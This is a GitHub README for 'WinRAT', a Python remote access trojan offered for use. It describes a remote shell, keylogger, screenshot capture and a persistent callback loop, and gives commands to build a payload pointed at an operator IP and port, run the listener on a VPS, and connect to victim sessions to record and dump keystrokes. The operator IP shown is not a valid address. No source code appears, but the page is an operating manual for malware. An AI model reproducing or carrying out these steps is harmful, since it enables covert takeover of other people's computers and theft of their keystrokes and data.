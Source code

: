 <h1 align="center"> 
    <img src="https://1.bp.blogspot.com/-bIFInkmTIjc/X9HamnJryDI/AAAAAAAAAvk/m1Gd-zUWTm82285JLa_1TgIpSPYt6dKJACLcBGAsYHQ/s2896/WinRAT.png" alt="WinRAT" /> <br>    
    WinRAT
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/muneebwanee/WinRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://1.bp.blogspot.com/-ileKo-193NE/X9HeHFHI3yI/AAAAAAAAAwA/x0J3HWIh7y4wRLrswJsX34Lt09oGEVRVwCLcBGAsYHQ/s2195/WinRAT.png"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/muneebwanee/WinRAT.git
$ cd WinRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://1.bp.blogspot.com/-MPT_vanIA-0/X9HfzBocWyI/AAAAAAAAAwM/VsgW76tPWeMbWqOGECEC68FqJpzimUG-ACLcBGAsYHQ/s2048/WinRAT.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 winrat.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://1.bp.blogspot.com/--CU93TSA5hQ/X9HhV5axm6I/AAAAAAAAAwo/eV1W_MOM2_g9lwWBI44GPMoBYJRgHsOvgCLcBGAsYHQ/s2186/WinRAT.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```


### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

<p align="center">
<a href="#"><img title="Version" src="https://img.shields.io/badge/Version-1.0-green.svg?style=flat-square"></a>
<img src="https://img.shields.io/badge/muneebwanee%20-%231DA1F2.svg?&style=for-the-badge&logo=Twitter&logoColor=white"/>
<a href="https://instagram.com/muneebwanee"><img title="Instagram" src="https://img.shields.io/badge/IG-%40muneebwanee-red?style=for-the-badge&logo=instagram"></a>
<a href="https://linkedin.com/in/muneebwanee"><img title="LinkedIn" src="https://img.shields.io/badge/LinkedIn%20-muneebwanee-orange?colorA=%23ff9696&colorB=%237E7B4E&style=for-the-badge"></a>
<a href="https://m.me/me.muneebwanee"><img title="Facebook" src="https://img.shields.io/badge/Chat-Messenger-blue?style=for-the-badge&logo=messenger"></a>
<a href="https://github.com/muneebwanee"><img title="GitHub" src="https://img.shields.io/badge/Github-Muneeb--Wanee-green?style=for-the-badge&logo=github"></a>
<a href="https://ko-fi.com/muneb"><img alt="Donate using ko-fi" src="https://www.ko-fi.com/img/donate_sm.png"></a>
<a href="https://www.buymeacoffee.com/muneebwanee" target="buymeacoffee"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
<a href="https://liberapay.com/muneeb/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a>
</p>
